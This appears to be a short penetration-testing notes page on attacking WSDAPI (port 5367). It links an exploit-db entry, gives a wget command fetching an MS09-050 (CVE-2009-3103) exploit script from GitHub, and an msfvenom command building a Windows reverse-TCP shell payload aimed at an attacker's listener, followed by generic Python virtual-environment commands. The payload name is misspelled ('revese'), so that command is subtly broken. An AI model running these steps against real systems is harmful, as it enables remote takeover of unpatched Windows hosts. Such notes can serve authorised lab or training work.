 ```yaml
---
title: 5367 - WSDAPI
layout: default
---
```


[exploit-db.com/exploits/40280](https://www.exploit-db.com/exploits/40280)

```bash
wget https://raw.githubusercontent.com/sec13b/ms09-050_CVE-2009-3103/refs/heads/main/MS09_050_2.py
```

```bash
msfvenom -p windows/shell_revese_tcp LHOST=<LHOST> LPORT=443 EXITFUNC=thread -f python -v shell
```

```
mkdir <dir_name>1  
cd <dir_name>  
python3 -m venv <env_name> - creating a virtual environment  
source <env_name>/bin/activate - activate the environment  
deactivate - deactivate virtual environment
```